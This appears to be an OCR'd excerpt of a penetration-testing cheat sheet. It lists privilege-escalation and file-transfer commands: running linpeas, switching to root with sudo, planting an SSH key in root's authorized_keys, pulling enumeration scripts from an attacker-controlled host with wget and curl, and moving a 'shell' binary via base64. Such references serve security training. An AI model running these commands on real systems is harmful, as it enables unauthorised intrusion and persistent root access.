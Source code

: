 | **Privilege Escalation**                                     |                                                              |
| `./linpeas.sh`                                               | Run `linpeas` script to enumerate remote server              |
| `sudo -l`                                                    | List available `sudo` privileges                             |
| `sudo -u user /bin/echo Hello World!`                        | Run a command with `sudo`                                    |
| `sudo su -`                                                  | Switch to root user (if we have access to `sudo su`)         |
| `sudo su user -`                                             | Switch to a user (if we have access to `sudo su`)            |
| `ssh-keygen -f key`                                          | Create a new SSH key                                         |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user                     |
| `ssh root@10.10.10.10 -i key`                                | SSH to the server with the generated private key             |
| **Transferring Files**                                       |                                                              |
| `python3 -m http.server 8000`                                | Start a local webserver                                      |
| `wget http://10.10.14.1:8000/linpeas.sh`                     | Download a file on the remote server from our local machine  |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`       | Download a file on the remote server from our local machine  |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh`             | Transfer a file to the remote server with `scp` (requires SSH access) |
| `base64 shell -w 0`                                          | Convert a file to `base64`                                   |
| `echo f0VMR...SNIO...InmDwU \| base64 -d > shell`            | Convert a file from `base64` back to its orig                |
| `md5sum shell`                                               | Check the file's `md5sum` to ensure it converted correctlyBasic Tools |

[1]: https://en.wikipedia.org/wiki/Tmux	"tmux on wikipedia"



